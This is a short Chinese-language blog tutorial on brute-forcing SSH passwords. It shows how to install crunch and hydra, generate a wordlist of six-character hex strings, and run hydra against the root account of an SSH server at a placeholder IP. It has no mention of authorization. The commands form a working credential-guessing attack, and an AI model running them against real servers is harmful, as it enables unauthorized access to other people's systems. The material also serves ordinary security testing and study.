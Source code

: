 ```yaml
---
title: 简单暴力破解SSH密码
date: 2022-02-15 00:00:00
tags: 技术
---
```


# 暴力破解ssh密码

# 工具
1. crunch(password generator)
	密码生成器，原理很简单，直接dfs遍历所有可能的组合即可
```shell
# debian
apt install crunch
# mac
brew install crunch
```


2. hydra(brute force credentials)
	暴力破解工具
```shell
# debian
apt install hydra
# mac
brew install hydra
```

# 开始实验

1. 生产随机密码
```shell
# crunch <min-len> <max-len> [<charset string>]
#         最小长度	最大长度	密码所包含的字符
crunch 6 6 0123456789abcdef -o 6chars.txt
```
2. 开始破解尝试破解ssh
```shell
# -l username 用户名
# -t thread 线程数
hydra -l root -P passwords.txt -t 6 ssh://ip(x.x.x.x)
```
